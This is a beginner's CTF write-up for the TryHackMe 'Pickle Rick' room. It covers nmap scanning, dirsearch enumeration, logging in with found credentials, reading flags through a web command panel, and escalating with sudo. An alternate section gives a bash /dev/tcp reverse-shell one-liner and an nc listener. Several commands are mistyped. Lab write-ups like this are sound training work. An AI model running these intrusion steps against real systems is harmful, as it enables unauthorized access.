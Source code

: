 # Pickle-Rick-Writeup-
A writeup for Pickle Rick CTF room in Tryhackme https://tryhackme.com/room/picklerick. This is my first ever writeup, critics and suggestions are very welcome.

P.S the IP that is used in this writeup is different from each person.

# Scanning the target

For the first step in this excercise let's scan the machine to find
ports that is open using nmap. The options that i used for nmap are:

```
nmap -A -sV -oA nmap_result 10.10.205.
```
![NMAP Resulst](images/1-1.png "NMAP") 
Breakdown of each of this options:
-A : extensive scan on the machine
-sV : enable version detection of each of the ports
-oA : enable the output to be saved locally with the name "nmap_result"


Based on the output of nmap, now we know that there are two ports
that we can access, port 22 and port 80, that is ssh and webserver
respectively. Okay now that we have the ports, what should we do?.
Well since we didn't have any credentials to access the ssh, let's
start with the webserver first.

# First Ingredient

## The webserver
![Webserver](images/3-1.png) 

Not alot to see or do in this page, but we can try to see its source
code if there's anything we can find.
![Webserver](images/3-2.png)

It looks like we found a username commented in the HTML code. If
there's a username then that means there's login page somewhere
in this server. Lets try to brute force the directory to find the login
page and other pages hidden in this server


## Finding directory using Dirsearch

For this excercise i use a tool called “dirsearch” in order to find
these directories. If you are more comfortable with other tools such
as. Gobuster, dirbuster and the likes, i'd say go for it.

The options that i used for dirsearch is:

```
dirsearch -u 10.10.9.36 -e php,html,js
```
A breakdown of this command is:
-u : is the url of the target
-e : will search for the desired extensions
![Dirsearch](images/4-1.png)
It looks like there is a login page and a few other pages within this
server. Let's first take a look at the robots.txt page to see if there's
any other page hidden within the server that we might miss.

![Dirsearch](images/4-2.png)

It looks like one of rick's personal catchphrase that he always
said in the series. But it might mean something, so lets hold on to it.
Next let's try the assets page to find any other hidden file or
information that we can use later on.

![Dirsearch](images/4-3.png)
Nothing of the sorts, all of the files is just an image file and a couple
of css to use for the page. Clicking the parent directory leads us
back to the main page.

## Logging in to Rick's dashboard

After a bit of tour, let's access the login page.

![Dashboard](images/5-1.png)
We know the username is “R1ckRul3s” based on what we found in
the main page's source code, lets try to input “Wubbalubbadubdub”
that we found in the robots.txt as the password.

![Dashboard](images/5-2.png)
correct, now we can look around Rick's dashboard to find the
required ingridients to turn him back. Before moving to other pages
to see what's up, let's input a command “ls -al” to see if there's any peculiar file here.

![Dashboard](images/5-3.png)
and it looks like there is, and what appears to be one of the
ingridient that we need. By replacing the “portal.php” in the url with
the file name, and we get the first ingridient.

![Dashboard](images/5-4.png)
# Second Ingridient

## Knowing the current location of the system

Before we start searching for the second ingridient. First thing is to
know where is our current location in the system, since we already
know that the command panel executes linux command, we can
input 'pwd' to know the current directory.

![Dashboard](images/7-2.png)
Now we know where we are in the system. Since we're in /var, lets
look at /home directory to see what's in it using “ls” command:

```
ls/ home /
```
![Dashboard](images/7-3.png)

There are two directory in home, one is for rick and the other is
ubuntu. let's first search rick directory to see if he's putting the
other ingridients there, the command is "ls -la" to list all the files
that may be hidden to us.

```
ls -al \home\rick
```

![Dashboard](images/7-4.png)

There it is, the file containing the second ingridient. Let's use “cat”
to look at the file.

```
cat "/home/rick/second ingredients"
```
![Dashboard](images/7-5.png)
nope, looks like the “cat” command is disabled here, how about if
we use ‘less’ to see?.

```
less "/home/rick/second ingredients"
```
![Dashboard](images/7-6.png)

There we go.

Disclaimer: i didn't think of using this command when first time
solving this room, instead I use reverse shell.

# Third Ingredient

## Accessing the root

Now that we have the first and the second ingredient, to get the last
we will have to exploit the flaw of this system since we can't access
the root directory with our current privilege. To exploit, first we need
to list all the command the current user are allowed to run, to do
this, execute this command:

```
sudo -l
```
![Root](images/10-1.png)
Based on this output, it means that we are able to freely execute
any command with the highest privileged without the system
prompting us for password, this means we know the way to access
the root directory. Let's list all the files in root with ‘ls’ command:

```
sudo ls/ root
```
![Root](images/10-2.png)
now that we know the name of the file, open it with:

```
sudo less/ root / 3rd.txt
```
![Root](images/10-3.png)
Congratuations. Rick is back into human again.

# Alternate Method

## Open up reverse shell

Instead of executing the command inside the webserver, we can
open up a reverse shell by executing this command in the panel:

```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
Changing the RHOST with our own ip address and the RPORT with
whatever port we desire in our local computer. This will make the
server send a connection to us, what we'll do next is setting up our
computer to get that connection by executing this command in our
local console:

```
sudo nc -lvnp $RPORT
```
Change the RPORT with the same port number that we set for the
server. Breakdown of this command:


- sudo: nc needs to open up a port in the computer, for that it needs
the privilege of the user.
- lvnp: is a combination of option -l to listen for incoming connection,
-n to not perform domain name resolution, -v for verbose output,
and lastly -p to tell what port should nc listen to.

After executing the command, our console will look like this.

![Reverse](images/12-1.png)

We can input whatever command that we execute in the server, and
we can use “cat” command this way, however. The connection at
the current state is considered fragile and will disconnect if we press
ctrl+c. There is a way to stabilize the connection using method from
others, but in my case. I can't seem to do it due to nc always hangs
on me afterwards, it probably an error on my part.



